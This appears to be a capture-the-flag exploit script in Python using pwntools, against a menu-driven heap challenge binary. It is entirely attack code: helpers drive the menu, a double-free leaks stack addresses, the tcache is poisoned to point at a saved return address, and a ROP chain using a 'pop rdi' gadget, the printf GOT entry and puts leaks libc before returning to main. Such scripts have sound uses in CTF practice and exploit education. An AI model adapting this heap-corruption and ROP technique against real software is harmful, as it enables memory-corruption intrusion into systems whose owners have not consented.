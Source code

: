 ``` py
sl = lambda line: r.sendline(line)
bc = lambda value: str(value).encode('ascii')
demangle_base = lambda value: value << 0xc
remangle = lambda heap_base, value: (heap_base >> 0xc) ^ value

rcu(b"choice:\n")

def alloc(size):
    sl(b"1")
    sla(b"What size would you like?", bc(size))
    rcu(b"choice:\n")

def write_data(data):
    sl(b"2")
    sla(b"What would you like to write?", data)
    rcu(b"choice:\n")

def select_index(index):
    sl(b"3")
    sla(b"(0 - 9)", bc(index))
    rcu(b"choice:\n")

def free():
    sl(b"4")
    rcu(b"choice:\n")

def store_flag_ptr():
    sl(b"5")
    #rcu(b"choice:\n")

def exit_program():
    sl(b"6")  # menu option
#========= exploit here ===================
#rcu(b"choice:\n")

r.timeout = 1
#leak stack
alloc(0x88) #guard
free()
write_data(b"A")
free()
store_flag_ptr()
leak = int(rcu(b"eturn value: ", "\n"),16)
leak2 = int(rcu(b"eturn value: ", "\n"),16)
rcu(b"choice:\n")
logleak("stack leak", leak)
logleak("stack leak2", leak)

# ROP to leak
write_data(p64(leak+0x20)+p64(0)) #ret address
alloc(0x88)
alloc(0x88)

rop = ROP(elf)

payload = p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(elf.got.printf)
payload += p64(elf.sym.puts)
payload += p64(elf.sym.main)
write_data(payload)
#trigger ret
exit_program()
r.recvline()
```